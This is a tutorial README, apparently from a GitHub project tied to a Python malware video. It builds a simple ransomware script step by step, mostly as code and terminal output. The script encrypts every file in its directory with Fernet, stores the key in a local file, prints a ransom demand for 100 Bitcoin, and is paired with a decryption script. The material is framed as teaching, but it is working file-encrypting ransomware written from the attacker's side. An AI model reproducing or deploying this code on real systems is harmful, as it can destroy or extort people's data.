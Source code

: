 # Ransomware

This is an example application featured in NetworkChuck's <a href="https://youtu.be/UtMMjXOlRQc">Python Malware Tutorial</a>.

### Instructions

**Step 1:**
Make a folder called ``ransomware`` and create a few random ``.txt`` files with some silly phrases in them:

<pre>
<code>$ mkdir ransomware
$ cd ransomware
$ echo "This is a file" > file.txt
$ echo "Leave me alone" > file2.txt
$ echo "Another one" > hey.txt
$ echo "One more time" > pleasedonthurtme.txt</code>
</pre>

Now let's hold these files for ransom! Let's encrypt those suckers right now! Here we go:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Write this code in the following ``voldemort.py`` file:

<details>
<summary>💰 How to Hold These Files for Ransom:</summary>

```python
#!/usr/bin/env python3
import os

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

```
</details>

When you first run ``voldemort.py`` in your terminal, you should see the following output:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']</code>
</pre>

**Step 2:**
Now let's encrypt those files! Start it off by running the following command:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Add more code to ``voldemort.py``:

<details>
<summary>🔒 How to Encrypt These Files:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

key = Fernet.generate_key()

print(key)

```
</details>

When you next run ``voldemort.py``, you should see the following output for your key:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']
b'nDcZ_UIVfpECWw2ezj2T4RKHg7i_7ARgMtHXEVxarfQ='</code>
</pre>

**Step 3:**
Obviously, we don't want to print our key right out there in the open where the user can see it. We want the user to give us money, but we do need to save the key into another file for safety so we can unlock the files later *after* we get paid 😉:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Add more code to ``voldemort.py``:

<details>
<summary>🔑 How to Save the Key:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

key = Fernet.generate_key()

with open("thekey.key", "wb") as thekey:
    thekey.write(key)

```
</details>

Run ``voldemort.py`` and you should see the following output:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']</code>
</pre>

Wait, where is ``thekey.key``? Don't worry! It is still hidden and we can finally view it by entering the following commands:

<pre>
<code>$ ls
file.txt             hey.txt              thekey.key
file2.txt            pleasedonthurtme.txt voldemort.py
$ cat thekey.key
l-4zrPy0VkR8pDJnGvsxyy2UEXGiV0AKkpEQR-fzD14=%</code>
</pre>

**Step 4:**
Now this is where things start to get interesting. We will be pushing our ``thekey.key`` file into the code for our ``voldemort.py`` file so that all the other files will be encrypted. In other words, the poor user can now only see those files as gibberish:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Add the following code to ``voldemort.py``:

<details>
<summary>👁️👄👁️ How to Make These Files Come Out as Garble:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py" or file == "thekey.key":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

key = Fernet.generate_key()

with open("thekey.key", "wb") as thekey:
    thekey.write(key)

for file in files:
    with open(file, "rb") as thefile:
        contents = thefile.read()
    contents_encrypted = Fernet(key).encrypt(contents)
    with open(file, "wb") as thefile:
        thefile.write(contents_encrypted)

print(
    "UH OH!! All of your files have been encrypted! Send me 100 Bitcoin "
    "or they will be gone in 24 hours FOREVER!!! ☠️☠️☠️☠️☠️☠️☠️☠️☠️☠️"
)

```
</details>

Make one quick goodbye to each ``.txt`` file before they get encrypted by your mom:

<pre>
<code>$ cat file.txt
This is a file
$ cat file2.txt
Leave me alone
$ cat hey.txt
Another one
$ cat pleasedonthurtme.txt
One more time</code>
</pre>

Run ``voldemort.py`` and you should see the following output:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']
UH OH!! All of your files have been encrypted! Send me 100 Bitcoin or they will be gone in 24 hours FOREVER!!! ☠️☠️☠️☠️☠️☠️☠️☠️☠️☠️</code>
</pre>

This is the moment we've all been waiting for. Now all these ``.txt`` files have been left in ruins 😈:

<pre>
<code>$ cat file.txt
gAAAAABo9_vsmrW0ocPft7966tBWfmDGPGuULoBZLck3RAbj2MPsLUWLoErkInZD5hWc4MVuuBzs99_EzxOvVCckm1kSqq27hhhO0Atscgp6N4Y73BcN6nIJ9hV0Lf6TcccX0b4NQxdOHP0vFXQ4wHA8eipTaASBhfl_02kekjYlbtDo5fOhWPnO8mDwYHcrxrblkOQwmvhm9_kwUKShDc4Ign2bk1D72A==%
$ cat file2.txt
gAAAAABo9_vsnw_nYyQ_29Z-Ol9W322Qf6hScuHtGS6YgB8A1mik3dlDoKi11PrfFGDIoDr22ddLw-yeT3D-dulUuvQBz-t0LB02vJhdmjJFBgLUCYl0FajFaIyYXb31dkrUlYLoSuG7FPchBeT4EG6-1lllQFbV9QBQlKsPXNZOLU6j551Q54Kg4XhpHPTEuym02dZaC0YOIn7B5hFFj8EtROpXKqqDHw==%
$ cat hey.txt
gAAAAABo9_vsLnZX08uVJR-veRrK-SNBhBLB3oLAhxl850VmOYnSGTkjLoPmHzNGKmjbZNBcOMMUUxLUKpN50_XdErY_C-TmzgMD_O6pzhllzdzZ-kYL8zKEgDI7VSAsSTsRkY12-kNpcLuQnvQz_7KDCqFXE6N-605rrYo0tQr2gd5RIp2_IoyHJBWT1etHcMSjkJ3u8IXLhcf3_h6-9RHkMlRTFkxFFQ==%
$ cat pleasedonthurtme.txt
gAAAAABo9_vsBkcYTvBVAh46_xe24bRQtPJLbmbZj2RQhzY6XFW5NtPQZukDfkAkzyH-KDu5rrnAhd1dZjGKjtNM7VR3U_DZs8-FtHKCU2MbjfpTeA59CJel17U577amMDzeiJV5RWF0L4CTXBwR1a8_4TRdTKNReT7DP4nzIc73iprGF9qqjQbPOJJmBVofby7mbYmRJCC9F53KMvd-NM9xFhyfu-q8uA==%</code>
</pre>

Fortunately for us hackers, we have a new ``thekey.key`` and that is the key to unlocking these files:

<pre>
<code>$ cat thekey.key
uGb51hGWiq-3FEslUhjYNDn2HBWs8JXl-X1RHUqiiSw=%</code>
</pre>

**Step 5:**
Now we can unlock all these files once and for all by writing a ``decrypt.py`` file. Luckily, it is already very similar to the ``voldemort.py`` (AKA the *encrypt.py* file):

<pre>
<code>$ cp voldemort.py decrypt.py
$ nano decrypt.py</code>
</pre>

Add the following code to the ``decrypt.py`` file:

<details>
<summary>🔑 How to Decrypt the Files:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py" or file == "thekey.key" or file == "decrypt.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

with open("thekey.key", "rb") as key:
    secret_key = key.read()

for file in files:
    with open(file, "rb") as thefile:
        contents = thefile.read()
    contents_decrypted = Fernet(secret_key).decrypt(contents)
    with open(file, "wb") as thefile:
        thefile.write(contents_decrypted)

```
</details>

Run ``decrypt.py`` and you should see the following output:

<pre>
<code>$ python decrypt.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']</code>
</pre>

Now you can see that all of the files have finally been decrypted!!!

<pre>
<code>$ cat file.txt
This is a file
$ cat file2.txt
Leave me alone
$ cat hey.txt
Another one
$ cat pleasedonthurtme.txt
One more time</code>
</pre>
